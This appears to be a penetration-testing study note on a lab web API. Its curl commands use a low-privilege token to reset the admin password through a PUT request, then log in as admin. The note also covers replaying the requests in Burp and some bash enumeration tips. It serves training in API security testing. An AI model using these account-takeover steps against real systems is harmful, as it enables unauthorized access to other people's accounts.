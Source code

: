 Sadly, the application states that the method used is incorrect, so we need to try another one:
+ The PUT method (along with PATCH) is often used to replace a value as opposed to creating one via a POST request, so let's try to explicitly define it next:
```
kali@kali:~$ curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```
+ This time we received no error message, so we can assume that no error was thrown by the application backend logic
+ To prove that our attack succeeded, we can try logging in as admin using the newly-changed password:
```
kali@kali:~$ curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzIxMjgsImlhdCI6MTY0OTI3MTgyOCwic3ViIjoiYWRtaW4ifQ.yNgxeIUH0XLElK95TCU88lQSLP6lCl7usZYoZDlUlo0", "message": "Successfully logged in.", "status": "success"}
```

We managed to take over the admin account by exploiting a logical privilege escalation bug present in the registration API
+ These kind of programming mistakes happen to various degrees when building web applications that rely on custom APIs, often due to lack of testing and secure coding best practices
+ So far we have relied on curl to manually assess the target's API so that we could get a better sense of the entire traffic flow

This approach, however, will not properly scale whenever the number of APIs becomes significant. Luckily, we can recreate all the above steps from within **Burp**:
+ As an example, let's replicate the latest admin login attempt and send it to the proxy by appending the _--proxy 127.0.0.1:8080_ to the command
+ Once done, from Burp's _Repeater_ tab, we can create a new empty request and fill it with the same data as we did previously:
![[Pasted image 20230810162435.png]]
+ Then we'll click on the _Send_ button and verify the incoming response on the right pane:
![[Pasted image 20230810162502.png]]

Great! We were able to recreate the same behavior within our proxy, which, among other advantages, enables us to store any tested APIs in its database for later investigation
+ Once we've tested a number of different APIs, we could navigate to the _Target_ tab and then _Site map_. We can then retrieve the entire map of the paths we have been testing so far:
![[Pasted image 20230810162525.png]]
+ From Burp's Site map, we can track the API we discovered and forward any saved request to the Repeater or Intruder for further testing

#### Bash One-liners 
A helpful way to get a list of numbers for enumeration:
+ `seq 1 100 > numbers.txt`, where `seq <NUM_START> <NUM_END>` will make that range of numbers, and can then send that to a file 
+ **Escaping Newlines**: You can use a backslash to escape the newline character and continue a command on the next line. For example 
``` bash
echo "This is a long \ 
line of text."
```
